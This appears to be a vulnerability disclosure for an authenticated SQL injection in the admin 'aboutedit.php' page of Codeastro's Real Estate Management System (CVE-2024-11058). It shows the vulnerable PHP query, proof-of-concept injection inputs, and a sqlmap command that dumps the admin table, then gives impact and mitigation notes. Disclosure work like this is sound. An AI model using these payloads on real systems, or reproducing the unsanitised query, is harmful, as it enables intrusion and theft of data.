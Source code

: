 ## Vulnerability Details:
- **Application Name**: Codeastro Real Estate Management System 
- **Software Link**: [Download Link](https://codeastro.com/real-estate-management-system-in-php-with-source-code/)
- **Vendor Homepage**: [Vendor Homepage](https://codeastro.com/)
- **BuG**: Authenticated SQL Injection 
- **BUG_Author**: egsec


## About project:
- In particular, this Real Estate Management System Project in PHP focuses mainly on publishing and viewing properties. To be more precise, the system helps to keep a number of sales and rental properties.

## Vulnerability Description:
- An SQL injection vulnerability exists in the `id` parameter of the `aboutedit.php` page within the admin panel of the application. This vulnerability allows an attacker to manipulate the SQL query executed by the server by injecting malicious SQL code through the id parameter.

## Vulnerable Code Section:
- `aboutedit.php`:
```php
...
$aid = $_GET['id'];
..
$sql = "UPDATE about SET title = '{$title}' , content = '{$content}', image ='{$aimage}' WHERE id = {$aid}";
...
```
- In the code above, the `id` parameter from the `$_GET` superglobal is directly included in the SQL query without any sanitization or parameterization. This allows an attacker to inject malicious SQL code into the id parameter, potentially manipulating the query and compromising the database.

## Proof of Concept (PoC):
- put the single quote to the `id` parameter => `http://localhost/RealEstate-PHP/admin/aboutedit.php?id=10'`:

![image](https://github.com/user-attachments/assets/732ce7b0-7635-4265-bffb-682d87bd65c1)

it means that single quote `'` is executed as command by application
- use this payload (`aboutedit.php?id=11 OR 1=1`) and notice that it will dump all "About Pages":

![image](https://github.com/user-attachments/assets/1f7d14de-1e54-45dd-8ebe-ca9a3ab57e9d)

execution in the code:
```sql
UPDATE about SET title = '...', content = '...', image = '...' WHERE id = 10 OR 1=1;
```
- after detecting sql injection vulnerability, the exploitation step can be implemented by the `sqlmap`:
```python
python3.12 sqlmap.py -u "http://localhost/RealEstate-PHP/admin/aboutedit.php?id=10*" --dbms MySQL -D realestatephp -T admin --dump
```
it will dump admin data in the database:

![image](https://github.com/user-attachments/assets/8ae499df-dfed-4368-9f6d-d167dfc6cb47)

- PoC video: [link](https://www.youtube.com/watch?v=wVoNiFzQqJ0)

## Impact:
- This SQL injection vulnerability allows attackers to manipulate database queries through the id parameter. Exploiting this flaw can lead to unauthorized data modification, data leakage, privilege escalation, and, in severe cases, complete database compromise. This could result in data loss, exposure of sensitive information, and compliance violations, ultimately damaging the organization’s reputation and leading to potential legal repercussions. Immediate remediation is crucial to protect the integrity and security of the application and its data.

## Mitigation:
- Prepared Statements: The query now uses prepare() and bind_param() methods, which ensure that input values are safely bound to the query without risking SQL injection.
- Data Type Binding: bind_param() specifies the data types of the parameters (e.g., "sssi" for string, string, string, integer), adding an extra layer of security by validating input types.
- Validation and Escaping: Prepared statements handle escaping of special characters automatically, reducing the risk of injection.

## References:
[cvefeed.io link for CVE-2024-11058](https://cvefeed.io/vuln/detail/CVE-2024-11058)
